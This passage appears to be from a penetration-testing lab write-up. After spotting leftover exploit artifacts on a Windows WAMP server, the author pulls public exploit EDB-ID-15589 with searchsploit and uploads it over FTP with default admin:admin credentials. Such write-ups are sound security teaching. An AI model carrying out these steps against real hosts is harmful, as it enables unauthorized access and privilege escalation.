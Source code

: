 After manual browsing of the filesystem, Victor noticed an oddly named file with the same date of the folder highlighted above.
```bash
cd c:\wamp\bin\apache\Apache2.2.21\
dir 

# output
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of c:\wamp\bin\apache\Apache2.2.21

03/30/2020  06:30 AM    <DIR>          .
03/30/2020  06:30 AM    <DIR>          ..
09/26/2011  09:50 AM            15,159 ABOUT_APACHE.txt
11/08/2011  04:37 AM    <DIR>          bin
11/08/2011  04:36 AM    <DIR>          cgi-bin
09/26/2011  09:50 AM           121,134 CHANGES.txt
11/08/2011  04:36 AM    <DIR>          conf
11/08/2011  04:36 AM    <DIR>          error
11/08/2011  04:36 AM    <DIR>          htdocs
11/08/2011  04:36 AM    <DIR>          icons
11/08/2011  04:36 AM    <DIR>          include
09/26/2011  09:50 AM             4,835 INSTALL.txt
11/08/2011  04:36 AM    <DIR>          lib
09/26/2011  09:50 AM            36,679 LICENSE.txt
11/09/2011  06:45 AM    <DIR>          logs
11/08/2011  04:36 AM    <DIR>          manual
11/08/2011  04:36 AM    <DIR>          modules
09/26/2011  09:50 AM             1,323 NOTICE.txt
09/26/2011  09:50 AM            26,498 OPENSSL-NEWS.txt
09/26/2011  09:50 AM            10,734 OPENSSL-README.txt
09/26/2011  09:50 AM             2,608 README-win32.txt
09/26/2011  09:50 AM             6,094 README.txt
12/31/2010  10:39 AM               330 wampserver.conf
03/30/2020  06:30 AM             3,858 wDw00t.xml # <--- notice the date
              11 File(s)        229,252 bytes
              13 Dir(s)   6,025,224,192 bytes free
```

```bash
type wDw00t.xml

# output
</Task>ncipals>>>InteractiveToken</LogonType>Temp\xpl.bat</Command>4/02/mit/task">
```

After conducting research online, it appears these two artifacts are left from an exploit known as EDB-ID-15589.
```bash
mkdir edb-id-15589
cd edb-id-15589
searchsploit -m 15589
ftp 192.168.51.46 21 # admin:admin
binary
put 15589.wsf
exit
```
